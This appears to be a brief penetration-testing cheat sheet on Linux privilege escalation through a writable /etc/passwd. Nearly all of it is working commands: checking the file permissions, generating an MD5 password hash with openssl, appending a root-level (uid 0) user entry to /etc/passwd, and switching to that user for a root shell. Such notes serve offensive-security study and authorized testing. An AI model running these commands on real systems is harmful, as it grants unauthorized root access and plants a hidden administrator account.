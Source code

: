 ```yaml
---
title: "Writable /etc/passwd"
date: 2024-7-1
tags: ["passwd", "shadow", "/etc/passwd", "privesc"]
---
```


### Abuse #1: Writable /etc/passwd

```console
# Check
ls -l /etc/passwd /etc/shadow
```

```console
# Create password hash
openssl passwd -1 password
```

```console
# Add to /etc/passwd
echo 'user:$1$mQ8Xk.u8$XjFlyg01xLRjhCK/v//Qe/:0:0:comment:/root:/bin/bash' >> /etc/passwd
```

```console
# Get root shell
su - user
```

<br>